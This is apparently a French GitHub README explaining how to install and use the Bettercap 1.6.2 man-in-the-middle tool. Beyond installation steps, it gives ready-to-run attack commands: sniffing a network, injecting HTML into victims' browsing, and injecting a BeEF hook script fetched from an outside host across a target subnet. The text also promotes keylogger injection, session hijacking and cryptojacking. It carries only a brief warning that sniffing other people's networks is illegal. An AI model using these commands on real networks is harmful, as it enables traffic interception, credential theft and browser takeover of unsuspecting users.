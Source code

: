 # :heavy_check_mark: Bettercap 1.6.2
![alt text](https://www.bettercap.org/logo.png) </p>
Bettercap est un outils MITM multifonction, exemple : sniffing, injection ... </p>
:heavy_exclamation_mark: Cependant, sniffer un réseau qui n'est pas le votre est illégal. </p>
Dépendances à satisfaire => <b> ```apt-get install ruby ruby-colorize ruby-em-proxy ruby-net-dns ruby-network-interface ruby-packetfu ruby-packetfu ```</b> </p>
Pour télécharger :<b> ```git clone https://github.com/hurikayne/bettercap_1.6.2-0parrot1_all``` </b> </p>
:heavy_check_mark: install => <b>```dpkg -i bettercap_1.6.2-0parrot1_all.deb```</b> </p>
Bettercap 1.6.2 est une ancienne version de Bettercap, la 1.6.2 est plus simple. </p> Or à chaque "<b>```apt-get update```</b>" le paquet se mettera à jour, mais nous ne voulons pas cela donc pour empêcher la MAJ du paquet on lance la commande suivante : <b>```sudo apt-mark hold bettercap```</b> </p>
:heavy_check_mark: Pour sniffer un réseau (MITM): ```bettercap -X ```</p>
Pour de l'aide : <b>```bettercap -h``` </b></p>

Qu'est-ce que l'<b>injection</b> ? 
L'injection permet de placer un morceau de code non voulus par la/les victime(s), </p>exemple : injecter du html pour afficher un image à chaque page chargé par la victime, ou encore du javaScript pour injecter des keyloggers. </p>Avec JavaScript les possibilitées d'attaques sont énormes (cryptojacking :ok_hand:, session hijacking ...). 
:heavy_check_mark: Pour faire de l'injection: <b>```bettercap -I (INTERFACE ex:wlan0) -T (TARGET_IP) --proxy-https --httpd --proxy-module injecthtml --html-file xxxxx.html```</b>  </p>
Injection de code unique (Beef ex) : <b>```sudo bettercap -I wlan0 -G 172.51.1.1 -T 172.51.0.0/23 --proxy-module injectjs --js-url "http://172.51.1.91:3000/hook.js"
```</b>
L'utilisation de <b>Caplets</b> rend bettercap puissant. </p>


Pour plus de détails voir le site officiel : https://www.bettercap.org/  </p>



